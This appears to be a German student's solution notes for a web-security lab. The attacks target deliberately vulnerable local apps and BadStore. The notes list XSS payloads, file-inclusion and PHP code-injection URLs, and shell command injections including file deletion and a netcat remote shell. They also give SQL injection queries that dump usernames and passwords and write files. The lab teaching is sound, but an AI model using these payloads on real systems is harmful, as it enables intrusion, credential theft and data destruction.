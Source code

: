 ## 6.1.1.1 - 1.php
### Schreibe deinen Namen in Italic
Einfach `<i>Ertugrul</i>` in die Box eingeben!

### Namen in anderer Schriftart anzeigen
```html
<span style="color: red">Ertugrul</span>
```

### Schreibe deinen Namen in weiß
```html
<span style="color: white">Ertugrul</span>
```

### Ändere die Background Color zu blau
```html
<style>body {background-color: blue;}</style>
```

### Füge ein weiteres Feld ein
```html
Ertugrul<br><input />
```


## 6.1.1.2 - 2.php
## Versuche eine Injection
```html
myname"/><script>alert('hey')</script><span class="
```

## 6.1.1.3 - Zurück zu 1.php
### Versuche eine Weiterleitung mittels Meta Tag
```html
<meta http-equiv="refresh" content="0; URL=http://google.de/">
```

### Versuche einen IFrame einzubinden
```html
<iframe src="2.php" height="200" width="300" title="Iframe Example"></iframe>
```

## 6.1.1.4 - 4.php
### Versuche eine Injection
```html
<xmp></xmp><script>alert("Hello world");</script><xmp>
```

## 6.1.1.5 - 5.php
### Versuche einen Overlong UTF-8 Character (2 Bytes statt 1) zu injezieren
```html
http://192.168.178.93/html/4.php?name=%C0%BCscript%C0%BEalert("hi")%C0%BC/script%C0%BE
```

```ad-note
Achtung: Dies klappt mit neuen Browsern nicht!
```

## 6.1.2.1 - 1.php
### Versuche die .config.php Datei zu laden
**Warning**: include(.config): failed to open stream: No such file or directory in **/var/www/html/php/1.php** on line **23**  
  
**Warning**: include(): Failed opening '.config' for inclusion (include_path='.:/usr/share/php') in **/var/www/html/php/1.php** on line **23**

### Lade eine random php Seite
https://learningapps.org/index.php

### Lade die phpinfo.php Datei
`../phpinfo.php`

### Welche siehst du, die lokale oder den remote?
Remote, php läuft auf dem Server

### Wie könnte man hier Code injezieren? (Tipp: Mime Types)

### Was müsste man auf dem Webserver machen, um PHP Code zu injezieren?

## 6.1.2.2 - 2.php
### Wie könnte man hier Code injezieren?
`<option value="../phpinfo">../phpinfo</option>`
- Umgehen des "Schutzes", in dem Man einfach ein ".php" am Ende weglässt (Anders als bei 1.php wo man `../phpinfo.php` schreiben müsste)

## 6.1.2.3 - 3.php
### Einfach nur "phpinfo()" einzugeben würde nicht funktionieren, warum?
- Bei mir hat folgendes funktioniert:
- `http://192.168.178.93/php/3.php?maths=phpinfo%28%29`

## 6.1.2.4 - 4.php
### Wie könnte man die Anwendung angreifen?
`http://192.168.178.93/php/4.php?op_1=phpinfo&op=(&op_2=)`

## 6.1.3.1 - 1.php
### Lösche testfile1
`;rm testfile1`

### Erstelle ein simples Shell Script
`;touch myscript.sh;echo "#!/bin/bash\necho -n Hello\necho World" > script.sh`

### Gebe dem Script Ausführrechte und führe es aus
```shell
;chmod +x script.sh
;sh script.sh
```

## 6.1.3.2 - 2.cgi
### Versuche eine Datei im System zu laden
`/etc/apache2/apache2.conf`

### Versuch mal Befehle auszuführen
`| ls`

### Führ die connectme.cgi aus mit einer ip und einem Port für eine Remote Shell
Beim Remote: `nc -l -p 1299`
Beim Angreifer: `http://192.168.178.93/bash/connectme.cgi?ip=192.168.178.21&port=1299`

## 6.1.4.1 - 1.php
### Liste von allen Nutzern bekommen
```SQL
" OR 1=1-- 
```

### Alle Usernamen und Passwörter bekommen
```SQL
// Erst mal alle Tabellennamen printen
" UNION SELECT table_schema, table_name FROM information_schema.tables-- 
```

```SQL
// Alle Spalten der user Tabelle rausfinden
" UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema='web' AND table_name = 'user'-- 
```

```SQL
// Alle Nutzernamen und Passwörter rausfinden
" UNION SELECT username, password FROM user-- 
```

### Version herausbekommen
```SQL
" UNION SELECT version(), null-- 
```

### Datenbankschema (= web)
```SQL
// Erst mal alle Tabellennamen printen
" UNION SELECT table_schema, table_name FROM information_schema.tables-- 
```

### Datei schreiben
```SQL
" UNION SELECT username, password FROM user INTO OUTFILE "/var/www/html/sql/6.1.4.1.txt"-- 
```

### 6.1.4.2 - 2.php
Weil er Prepared Statements genutzt hat

## 6.1.4.3 - Blind injections
### So viele SQL Injections wie möglich finden
```SQL
http://192.168.178.119/cgi-bin/badstore.cgi?searchquery=xx%27+IN+(itemnum,sdesc,ldesc)+union+select+email,passwd,null,null+from+userdb+LIMIT+2+--+&action=search&x=16&y=7
```